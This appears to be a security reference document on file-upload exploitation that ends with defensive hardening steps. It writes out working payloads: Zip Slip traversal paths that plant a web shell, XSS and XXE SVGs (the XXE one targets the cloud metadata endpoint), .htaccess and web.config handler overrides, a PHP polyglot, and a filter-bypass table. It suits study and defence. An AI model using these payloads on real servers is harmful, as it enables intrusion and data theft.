

# Mechanism: Advanced File Upload Exploitation & Code Execution

## 1. Architectural Vulnerability Profile
*   **Vulnerability Class:** Unrestricted / Insufficiently Validated File Upload
*   **STRIDE Category:** Elevation of Privilege, Tampering, Information Disclosure
*   **Trust Boundary Crossed:** External Untrusted Client $\rightarrow$ File Storage Layer (Web Root / Cloud S3 / Temp Processing Directory) $\rightarrow$ Backend Execution Context (PHP, ASP.NET, Node, Image Processors)
*   **Target Environments:** Apache HTTPD, NGINX + PHP-FPM, IIS (ASPX), Node.js, File processing pipelines (ImageMagick, Ghostscript, Libvips, FFmpeg).

---

## 2. Core Failure Mechanism



---

## 3. High-Impact Attack Variations

### Variation A: Archive Directory Traversal (Zip Slip)
*   **Vector:** Archive import/restore functionality (e.g. `.zip`, `.tar.gz`, `.jar`).
*   **Mechanism:** An archive containing files with relative traversal paths:
    ```text
    ../../../../var/www/html/shell.php
    ../../../../root/.ssh/authorized_keys
    ```
*   **Impact:** When the backend unpacks the archive without canonicalizing the target path, it overwrites critical server files or plants web shells in executable web directories.

### Variation B: SVG Injection (Stored XSS & SSRF)
*   **Vector:** Avatar, logo, or diagram upload accepting `.svg` (Scalable Vector Graphics).
*   **Mechanism:** SVGs are XML files interpreted by browsers and XML parsers:
    *   **Stored XSS via JavaScript execution:**
        ```xml
        <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
        ```
    *   **XML External Entity (XXE) / SSRF in Image Parsers:**
        ```xml
        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
        <svg><text>&xxe;</text></svg>
        ```

### Variation C: Web Server Configuration Overwrite
*   **Apache (`.htaccess`):** If an attacker can upload a file named `.htaccess` into the uploads folder:
    ```apache
    AddType application/x-httpd-php .png
    ```
    Then uploading any innocent-looking `image.png` containing PHP payload will be executed by Apache as PHP!
*   **IIS (`web.config`):**
    ```xml
    <configuration>
      <system.webServer>
        <handlers>
          <add name="PHP" path="*.png" verb="*" modules="FastCgiModule" scriptProcessor="C:\php\php-cgi.exe" resourceType="Unspecified" />
        </handlers>
      </system.webServer>
    </configuration>
    ```

### Variation D: Polyglot Files & Image Parser Exploits
*   **GIF / JPEG Polyglots:** Prepending real image headers so image validation libraries (`getimagesize()`, `PIL`) validate the file:
    ```text
    GIF89a;
    <?php phpinfo(); ?>
    ```
*   **ImageMagick / Ghostscript Processing Triggers:**
    *   `MSL` (Magick Scripting Language) triggering remote file downloads.
    *   PostScript `%!` payloads triggering command execution in unpatched `Ghostscript` converters.

---

## 4. Extension & Filter Bypass Matrix

| Filter Type | Common Bypass Variations |
|---|---|
| **Blacklist Extension** | `.php5`, `.phtml`, `.phar`, `.php7`, `.pht`, `.shtml`, `.asp`, `.aspx`, `.ashx`, `.jsp`, `.jspx`, `.cfm` |
| **Case Sensitivity** | `.PhP`, `.AsPx`, `.JsP`, `.pHp5` |
| **Trailing Characters** | `shell.php.`, `shell.php `, `shell.php%20`, `shell.php%00.jpg`, `shell.php::$DATA` (NTFS streams) |
| **Double Extension** | `shell.php.jpg`, `shell.jpg.php`, `shell.png.php` |
| **MIME Validation** | Set `Content-Type: image/jpeg` or `image/png` while keeping executable payload |
| **Magic Byte Check** | Prepend `GIF89a` (47 49 46 38 39 61) or PNG signature `\x89PNG\r\n\x1a\n` |

---

## 5. Defensive Hardening
1. **Store Outside Web Root:** Save uploaded files in private object storage (AWS S3, Google Cloud Storage) or non-executable directories.
2. **Re-encode All Media:** Never serve raw user-uploaded binary streams; re-compress and re-encode images via secure pipelines (stripping EXIF metadata and embedded scripts).
3. **Randomize Filenames:** Generate UUIDs for all stored files (`3f1b4...jpg`) and ignore the client-supplied `filename`.
4. **Enforce `Content-Disposition: attachment` & `X-Content-Type-Options: nosniff`** for all direct downloads.
